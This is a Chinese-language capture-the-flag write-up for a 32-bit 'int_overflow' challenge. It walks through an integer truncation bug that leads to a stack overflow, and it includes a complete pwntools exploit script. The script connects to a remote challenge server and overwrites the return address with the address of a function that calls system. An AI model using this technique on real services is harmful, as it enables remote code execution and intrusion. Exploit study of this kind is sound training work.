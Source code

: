 ```yaml
---
typora-root-url: img
---
```


# int_overflow

## 一、审题

![](/1.PNG)

## 二、解题思路

1、考点为整数溢出，先checksec看看保护情况，32位，got表可写，没有栈溢出保护，堆栈不可执行，代码段加载地址固定；

![](/2.PNG)

2、使用ida打开程序，查看伪代码，main函数中主要有两个功能，exit不用看，重点看login，在login函数中需要输入username（最长0x19）和password（最长0x199），此处不存在缓冲区溢出，再进一步看check_passwd函数，发现存在整数溢出点，如下图，v3变量的类型为unsigned __int8，只有一字节的空间，但是s数组的长度最长可达0x199，只需要满足最后一字节在4~8之间即可，这里主要是大到小的类型转换出现截断，并且dest变量的长度只有10字节，可溢出覆盖返回地址；

![](/3.PNG)

3、查看存在system语句，如下图，直接将返回地址改为此函数地址即可；

![](/4.PNG)

4、exp如下：

```python
from pwn import *

s = remote('220.249.52.133', 48307)
r_addr = 0x0804868B
payload = 'a'*0x18 + p32(r_addr) + 'a'*(0x104-0x18-0x4)

s.sendlineafter('Your choice:','1')
s.sendlineafter('Please input your username:','aaa')
s.recvuntil('Please input your passwd:')
s.sendline(payload)

s.interactive()
```

结果如下：

![](/5.PNG)
